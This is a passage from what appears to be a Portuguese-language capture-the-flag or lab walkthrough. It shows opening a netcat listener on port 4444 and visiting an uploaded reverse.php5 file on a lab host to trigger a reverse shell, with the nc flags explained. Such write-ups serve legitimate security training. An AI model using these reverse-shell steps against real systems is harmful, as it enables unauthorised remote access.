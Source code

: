 ![alt](img7.png)

6. No terminal, abrimos um listener para receber a conexão do shell reverso:

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444                         
listening on [any] 4444 ...
```

Explicando o comando netcat (`nc`):

`-l`: coloca o netcat em modo "listener" para aguardar conexões.

`-v`: modo verboso (mais informações na saída).

`-n`: evita resolver nomes DNS (mais rápido).

`-p`: porta onde ficará ouvindo.

7. Acessamos pelo navegador http://10.10.49.88/uploads/reverse.php5 para disparar a conexão reversa, ou podemos simplesmente clicar nele

![alt](img8.png)
